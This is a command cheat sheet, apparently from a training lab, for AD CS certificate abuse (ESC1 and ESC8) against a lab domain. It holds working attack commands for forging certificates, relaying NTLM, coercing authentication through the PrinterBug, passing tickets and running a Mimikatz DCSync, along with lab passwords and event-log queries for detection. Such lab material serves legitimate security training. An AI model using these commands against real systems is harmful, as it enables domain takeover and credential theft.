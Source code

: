 # PKI - ESC1

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `.\Certify.exe find /vulnerable` | Using the Certify.exe tool to scan for vulnerabilities in PKI infrastructure. |
| `.\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator` | Using the Certify.exe tool to obtain a certifcate from the vulnerable template |
| `openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx` | Command to convert a `PEM` certificate to a `PFX` certificate.
| `.\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt` | Using the Rubeus.exe tool to request a TGT for the domain Administrator by way of forged certifcate. |
| `runas /user:eagle\htb-student powershell`                  | Start a new instance as powershell as the htb-student user. |
| `New-PSSession PKI`                                         | Start a new remote powershell session on the `PKI` machine. |
| `Enter-PSSession PKI`                                       | Enter a remote powershell session on the `PKI` machine. |
| `Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}` | Using the Get-WinEvent cmdlet to view windows Event 4887 |
| `$events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}` | Command used to save the events into an array |
| `$events[0] \| Format-List -Property *`                      | Command to view events within the array. The `0` can be adjusted to a different number to match the corresponding event |


# PKI & Coercing - ESC8

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `impacket-ntlmrelayx -t http://172.16.18.15/certsrv/default.asp --template DomainController -smb2support --adcs`         | Command to forward incoming connections to the CA. The `--adcs` switch makes the tool parse and display the certificate if one is received. |
| `python3 ./dementor.py 172.16.18.20 172.16.18.4 -u bob -d eagle.local -p Slavi123` | Using the PrinterBug to trigger a connection back to the attacker. |
| `xfreerdp /u:bob /p:Slavi123 /v:172.16.18.25 /dynamic-resolution `            | Connecting to WS001 from the Kali host using RDP. |
| `.\Rubeus.exe asktgt /user:DC2$ /ptt /certificate:<b64 encoded cert>` | Using Rubeus.exe to ask for a TGT by way of base 64 encoded certificate. |
| `mimikatz.exe "lsadump::dcsync /user:Administrator" exit `            | Using mimikatz.exe to DCsync the `administrator` user. This is performed once the TGT for DC2 has been passed to the current session. |
| `evil-winrm -i 172.16.18.15 -u htb-student -p 'HTB_@cademy_stdnt!'` | Connecting to PKI from the Kali Host using evil-winrm. |
